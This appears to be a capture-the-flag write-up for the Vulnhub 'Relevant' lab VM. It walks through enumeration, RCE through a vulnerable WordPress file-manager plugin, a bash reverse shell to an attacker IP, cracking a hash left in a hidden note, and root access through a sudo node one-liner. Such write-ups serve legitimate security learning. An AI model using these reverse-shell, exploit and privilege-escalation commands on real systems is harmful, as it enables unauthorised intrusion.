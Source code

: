 ```yaml
---
title: Vulnhub - Relevant
description: My writeup on Relevant box.
categories:
 - vulnhub
tags: vulnhub wordpress node crackstation
---
```


![](https://c-link.com/wp-content/uploads/2018/12/JCT-and-Relevant-Events.jpg)

You can find the machine there > [Relevant](https://www.vulnhub.com/entry/relevant-1,568/){:target="_blank"}

## Summary

We start by finding a wordpress site and wpscan reveals a vulnerable plugin, this gives us a shell as www-data. First privesc is all about an exposed hash and final one is about node exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 12:36 EEST
Nmap scan report for relevant.zte.com.cn (192.168.1.15)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:1E:5C:B7 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 12:37 EEST
Nmap scan report for relevant.zte.com.cn (192.168.1.15)
Host is up (0.00087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Database Error
```

Let's start the enumeration on port 80, once we visit the website we can see a "database error":

![](https://i.imgur.com/Y78bExk.png)

A `gobuster` scan shows us that is a wordpress site! But nothing works.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wp-content (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/readme.html (Status: 200)
/wp-admin (Status: 301)
```

If we run a `wpscan` scan we can see that can't detect the wordpress site or the plugins:

```
$ wpscan --no-banner --url http://$ip/ -e ap,u

Scan Aborted: The remote website is up, but does not seem to be running WordPress.
````

After digging into the help page i found the solution:

```
$ wpscan --no-banner --url http://$ip/ --force --plugins-detection aggressive -e ap,u
[+] URL: http://192.168.1.15/ [192.168.1.15]
[+] Started: Wed Oct  7 12:45:24 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.18.0 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.1.15/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.15/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:00 <========================================================================================================> (463 / 463) 100.00% Time: 00:00:00
[+] WordPress version 5.5.1 identified (Latest, released on 2020-09-01).
 | Found By: Style Etag (Aggressive Detection)
 |  - http://192.168.1.15/wp-admin/load-styles.php, Match: '5.5.1'
 | Confirmed By: Unique Fingerprinting (Aggressive Detection)
 |  - http://192.168.1.15/wp-admin/js/common.min.js md5sum is d882c62db3212caee8464d76f47eae4a

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
<=====================================================================================================> (89276 / 89276) 100.00% Time: 00:02:03
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.1.15/wp-content/plugins/akismet/
 | Latest Version: 4.1.6 (up to date)
 | Last Updated: 2020-08-10T16:49:00.000Z
 | Readme: http://192.168.1.15/wp-content/plugins/akismet/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.1.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/readme.txt

[+] wp-file-manager
 | Location: http://192.168.1.15/wp-content/plugins/wp-file-manager/
 | Last Updated: 2020-09-14T19:30:00.000Z
 | Readme: http://192.168.1.15/wp-content/plugins/wp-file-manager/readme.txt
 | [!] The version is out of date, the latest version is 6.9
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/wp-file-manager/, status: 200
 |
 | Version: 6.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/wp-file-manager/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] No Users Found.
```

## Shell as www-data

`wp-file-manager` seems vulnerable, after searching on google for possible exploits i found a RCE one! [exploit](https://github.com/w4fz5uck5/wp-file-manager-0day){:target="_blank"}

Let's download it & run it:

```
$ wget -q https://raw.githubusercontent.com/w4fz5uck5/wp-file-manager-0day/master/elFinder.py
$ python elFinder.py http://$ip/ whoaim
Usage: elFinder.py http://localhost
URL Shell: %s/wp-content/plugins/wp-file-manager/lib/files/x.php?cmd=<CMD>
$ whoami
www-data
```

Perfect, this shell seems unstable so let's spawn a normal reverse shell:

```
bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'
```

Let's URL encode it:

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

& We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ python3 -c 'import pty; pty.spawn("/bin/bash")'                
www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as news

This privesc is kinda tricky, user "h4x0r" has a hidden directory named `...`:

```
www-data@relevant:/home/h4x0r$ ls -la
total 28
drwxr-xr-x 4 h4x0r h4x0r 4096 Sep 21 20:16 .
drwxr-xr-x 5 root  root  4096 Sep 21 19:50 ..
drwxr-xr-x 2 h4x0r h4x0r 4096 Sep 21 20:15 ... <---
lrwxrwxrwx 1 h4x0r h4x0r    9 Sep 21 20:16 .bash_history -> /dev/null
-rw-r--r-- 1 h4x0r h4x0r  220 Sep 21 19:50 .bash_logout
-rw-r--r-- 1 h4x0r h4x0r 3771 Sep 21 19:50 .bashrc
drwxrwxr-x 3 h4x0r h4x0r 4096 Sep 21 20:06 .local
-rw-r--r-- 1 h4x0r h4x0r  807 Sep 21 19:50 .profile
```

Into this directory, a `note.txt` exists:

```
www-data@relevant:/home/h4x0r/...$ cat note.txt
news : 4C7EB317A4F4322C325165B4217C436D6E0FA3F1
```

Let's use [crackstation](https://crackstation.net/){:target="_blank"} to crack it. We have the password `backdoorlover` Now we can switch to user `news`:

```
www-data@relevant:/home/h4x0r/...$ su - news
Password: backdoorlover

news@relevant:/home/h4x0r/...$ whoami;id
news
uid=9(news) gid=9(news) groups=9(news)
```

## Shell as root

Checking `sudo -l` we can see that we can run `node` as root:

```
news@relevant:/home/h4x0r/...$ sudo -l
[sudo] password for news: backdoorlover

Matching Defaults entries for news on relevant:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User news may run the following commands on relevant:
    (ALL : ALL) /usr/bin/node
```

[gtfobins](https://gtfobins.github.io/gtfobins/node/#sudo){:target="_blank"} page says how to exploit it:

```
news@relevant:/home/h4x0r/...$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Fun box! :smile:
